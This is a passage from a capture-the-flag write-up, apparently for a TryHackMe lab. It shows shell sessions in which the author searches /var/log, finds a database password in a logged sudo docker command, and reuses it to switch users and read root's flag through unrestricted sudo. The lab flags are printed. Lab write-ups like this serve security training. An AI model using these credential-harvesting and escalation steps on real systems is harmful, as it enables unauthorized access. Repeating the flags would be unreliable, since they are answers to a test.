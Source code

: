   ```
  
- Now let's look for all the entries related to user `tyler`.

  ```
  tim@silver-platter:/home$ cd /var/log
  tim@silver-platter:/var/log$ grep -iR tyler
  [SNIP!]
  auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
  [SNIP!]
  ```

- NEVER REUSE PASSWORDS!!!!!!!!!!!!!!!!!!!!!!

  ```
  tim@silver-platter:/var/log$ su tyler
  Password:
  
  tyler@silver-platter:/var/log$ whoami
  tyler
  
  tyler@silver-platter:/var/log$ id
  uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
  ```

---

## 👑 Root Privilege Escalation

- This root escalation is easiest of my life.

  ```
  tyler@silver-platter:/var/log$ sudo -l
  [sudo] password for tyler: 
  Matching Defaults entries for tyler on silver-platter:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
  
  User tyler may run the following commands on silver-platter:
      (ALL : ALL) ALL
  
  tyler@silver-platter:/var/log$ sudo cat /root/root.txt
  THM{098f6bcd4621d373cade4e832627b4f6}
  ```
  
- You can also use `sudo su` and actually become root, bye!

---

## 🏁 Flags

- **User Flag**: `THM{c4ca4238a0b923820dcc509a6f75849b}`
- **Root Flag**: `THM{098f6bcd4621d373cade4e832627b4f6}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Getting initial access.`

- What did I learn?
  `New login bypass technique.`
  ```
